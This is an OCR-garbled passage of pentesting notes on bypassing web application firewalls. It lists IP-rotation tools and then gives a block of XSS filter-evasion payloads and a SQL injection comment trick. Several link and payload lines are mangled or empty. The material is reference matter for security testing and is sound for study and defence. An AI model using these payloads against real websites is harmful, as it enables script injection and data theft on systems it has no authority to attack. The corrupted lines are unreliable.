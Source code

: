 ```
- [[https://github.com/ustayready/fireprox|https://github.com/ustayready/fireprox]]: Generate an API gateway URL to by used with ffuf
- [[https://github.com/rootcathacking/catspin|https://github.com/rootcathacking/catspin]]: Similar to fireprox
- [[https://github.com/PortSwigger/ip-rotate|https://github.com/PortSwigger/ip-rotate]]: Burp Suite plugin that uses API gateway IPs
- [[https://github.com/fyoorer/ShadowClone|https://github.com/fyoorer/ShadowClone]]: A dynamically determined number of container instances are activated based on the input file size and split factor, with the input split into chunks for parallel execution, such as 100 instances processing 100 chunks from a 10,000-line input file with a split factor of 100 lines.
- [[https://0x999.net/blog/exploring-javascript-events-bypassing-wafs-via-character-normalization#bypassing-web-application-firewalls-via-character-normalization|https://0x999.net/blog/exploring-javascript-events-bypassing-wafs-via-character-normalization#bypassing-web-application-firewalls-via-character-normalization]]

### Regex Bypasses

Different techniques can be used to bypass the regex filters on the firewalls. Examples include alternating case, adding line breaks, and encoding payloads. Resources for the various bypasses can be found at [[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#filter-bypass-and-exotic-payloads) and [OWASP](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html). The examples below were pulled from [this article](https://medium.com/@allypetitt/5-ways-i-bypassed-your-web-application-firewall-waf-43852a43a1c2|PayloadsAllTheThings]].

```bash
<sCrIpT>alert(XSS)</sCriPt> #changing the case of the tag
< #prepending an additional "<"
<script>alert(XSS) // #removing the closing tag
 #using backticks instead of parenetheses
java%0ascript:alert(1) #using encoded newline characters
<iframe src=http://malicous.com < #double open angle brackets
 #uncommon tags
<img/src=1/onerror=alert(0)> #bypass space filter by using / where a space is expected
[[javascript:alert(1)|xss]] #extra characters
Function("ale"+"rt(1)")(); #using uncommon functions besides alert, console.log, and prompt
javascript:74163166147401571561541571411447514115414516216450615176 #octal encoding
<iframe src="javascript:alert(`xss)"> #unicode encoding
/?id=1+un/**/ion+sel/**/ect+1,2,3-- #using comments in SQL query to break up statement
new Function`alt\`6\``; #using backticks instead of parentheses
data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+ #base64 encoding the javascript
%26%2397;lert(1) #using HTML encoding
<a src="%0Aj%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At%0A%3Aconfirm(XSS)"> #Using Line Feed (LF) line breaks
<BODY onload!#$%&()*~+-_.,:;?@[/|\]^=confirm()> # use any chars that aren't letters, numbers, or encapsulation chars between event handler and equal sign (only works on Gecko engine)
```
```
## Tools

- [[https://github.com/assetnote/nowafpls|**nowafpls**]]: Burp plugin to add junk data to requests to bypass WAFs by length

## References

- [[https://rafa.hashnode.dev/exploiting-http-parsers-inconsistencies|https://rafa.hashnode.dev/exploiting-http-parsers-inconsistencies]]
- [[https://blog.sicuranext.com/modsecurity-path-confusion-bugs-bypass/|https://blog.sicuranext.com/modsecurity-path-confusion-bugs-bypass/]]
- [[https://www.youtube.com/watch?v=0OMmWtU2Y_g|https://www.youtube.com/watch?v=0OMmWtU2Y_g]]
```
